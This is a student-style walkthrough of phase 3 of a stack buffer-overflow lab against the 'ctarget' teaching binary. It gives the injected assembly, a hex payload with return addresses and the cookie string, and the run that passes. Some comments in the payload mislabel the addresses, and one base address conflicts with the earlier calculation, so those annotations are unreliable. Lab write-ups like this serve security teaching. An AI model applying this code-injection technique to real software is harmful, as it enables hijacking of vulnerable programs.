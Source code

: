 ```c
00000000004018dc <touch3>:
  4018dc:	53                   	push   %rbx
  4018dd:	48 89 fb             	mov    %rdi,%rbx
  4018e0:	c7 05 12 3c 20 00 03 	movl   $0x3,0x203c12(%rip)        # 6054fc <vlevel>
  4018e7:	00 00 00 
  4018ea:	48 89 fe             	mov    %rdi,%rsi
  4018ed:	8b 3d 11 3c 20 00    	mov    0x203c11(%rip),%edi        # 605504 <cookie>
  4018f3:	e8 66 ff ff ff       	callq  40185e <hexmatch>
  4018f8:	85 c0                	test   %eax,%eax
  4018fa:	74 1e                	je     40191a <touch3+0x3e>
  4018fc:	48 89 de             	mov    %rbx,%rsi
  4018ff:	bf d8 30 40 00       	mov    $0x4030d8,%edi
  401904:	b8 00 00 00 00       	mov    $0x0,%eax
  401909:	e8 72 f3 ff ff       	callq  400c80 <printf@plt>
  40190e:	bf 03 00 00 00       	mov    $0x3,%edi
  401913:	e8 01 04 00 00       	callq  401d19 <validate>
  401918:	eb 1c                	jmp    401936 <touch3+0x5a>
  40191a:	48 89 de             	mov    %rbx,%rsi
  40191d:	bf 00 31 40 00       	mov    $0x403100,%edi
  401922:	b8 00 00 00 00       	mov    $0x0,%eax
  401927:	e8 54 f3 ff ff       	callq  400c80 <printf@plt>
  40192c:	bf 03 00 00 00       	mov    $0x3,%edi
  401931:	e8 95 04 00 00       	callq  401dcb <fail>
  401936:	bf 00 00 00 00       	mov    $0x0,%edi
  40193b:	e8 b0 f4 ff ff       	callq  400df0 <exit@plt>

```
The total bytes before the cookie are buffer + 8 bytes for return address of rsp + 8 bytes for touch3

$rsp + 0x28 (Size 0x18 + 8 + 8 = 0x28)
0x5567d538 + 0x28 = 0x5567D560

```c
emacs phase3.s
```
```c
mov $0x5567D560, %rdi
retq
```
```c
gcc -c phase3.s
```
```c
objdump -d phase3.o > phase3.d
```
```c
emacs phase3.d
```
```c
0000000000000000 <.text>:
   0:   48 c7 c7 60 d5 67 55    mov    $0x5567d560,%rdi
   7:   c3                      retq
```
My cookie  = 0x19195f9f but need to remove 0x

Convert Text to hex :
31 39 31 39 35 66 39 66 <= Becomes the last part in phase3.txt

```c
emacs phase3.txt
```

```c
48 c7 c7 60 d5 67 55 c3 /* address from 0x5567d548 + 0x28 */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
38 d5 67 55 00 00 00 00 /* address of touch3 from rtarget */
dc 18 40 00 00 00 00 00 /* address of register $rsp */ 
31 39 31 39 35 66 39 66 /* my cookie address */
```

```c
./hex2raw < phase3.txt > raw-phase3.txt
```
Just to see what hex2raw does to the bytes in phase3.txt we run
```c
emacs raw-phase3.txt
```
```c
H\307\307`\325gU\303^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@8\325gU^@^@^@^@\334\
^X@^@^@^@^@^@19195f9f
```
Save the file with <kbd>CTRL</kbd>+<kbd>x</kbd> then <kbd>CTRL</kbd>+<kbd>c</kbd> then <kbd>y</kbd>
```c
./ctarget < raw-phase3.txt
```
```c
Cookie: 0x19195f9f
Type string:Touch3!: You called touch3("19195f9f")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```